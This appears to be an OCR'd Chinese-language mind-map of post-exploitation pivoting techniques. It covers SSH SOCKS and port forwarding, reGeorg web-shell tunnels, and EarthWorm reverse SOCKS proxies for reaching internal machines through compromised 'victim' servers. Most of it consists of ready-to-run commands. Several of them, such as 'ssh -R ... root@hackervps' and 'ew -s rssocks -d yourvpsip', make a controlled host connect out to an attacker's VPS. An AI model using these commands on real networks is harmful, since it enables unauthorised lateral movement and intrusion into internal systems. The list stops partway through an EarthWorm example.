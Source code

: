 	- 开启socks代理

		- ssh -qTfnN -D 1111 root@1.1.1.1
		- 输入1.1.1.1机器密码 本地利用proxychains等类似工具连接本地的1111端口的sock5连接 即可代理1.1.1.1的网络

	- 控制A、B机器，A能够访问B，且能出网，B能够访问C，但不能出网，A不能访问C

		- A机器执行

			- ssh -CNfg -L 2121:CIP:21 root@BIP
			- 输入BIP机器密码，访问A的2121端口即是访问CIP的21端口

	- 控制A机器，A能够访问B

		- A机器执行

			- ssh -CNfg -R 2121:BIP:21 root@hackervps
			- 输入黑客vps密码，访问黑客vps的2121端口即是访问BIP的21端口

- reGeorg

	- 根据网站支持的语言，把相应的tunnel.xx传到服务器上，访问tunnel.xx显示 Georg says, 'All seems fine'
	- 本地运行

		- python reGeorgSocksProxy.py -p 9999 -u http://1.1.1.1:8080/tunnel.xx
		- 利用proxychains等类似工具连接本地的9999端口的sock5连接即可代理1.1.1.1的网络

- EarthWorm

	- 受害者机器有外网ip并可直接访问

		- 把ew传到对方服务器上
		- ./ew -s ssocksd -l 8888
		- 本地利用proxychains等类似工具连接本地的对方服务器的8888端口的sock5连接即可代理对方的网络

	- 控制A机器，A能够访问B，通过A访问B

		- 在自己外网服务器上执行

			- ./ew -s rcsocks -l 1080 -e 8888

		- 对方服务器执行

			- ./ew -s rssocks -d yourvpsip -e 8888

		- 利用proxychains等类似工具可通过连接你的外网vps的1080 端口的socks5，即可代理受害者服务器的网络

	- 控制A、B机器，A能够访问B，B能够访问C，A有外网ip并可直接访问，通过A来使用B的流量访问C

		- B机器执行

			- ./ew -s ssocksd -l 9999

		- A机器

			- ./ew -s lcx_tran -l 1080 -f BIP -g 9999

		- 利用proxychains等类似工具可通过连接A的1080 端口的socks5，即可代理B服务器的网络

	- 控制A、B机器，A能够访问B，B能够访问C，A没有外网ip，通过A连接自己的外网vps来使用B的流量访问C

		- 自己vps执行

			- ./ew -s lcx_listen -l 1080 -e 8888
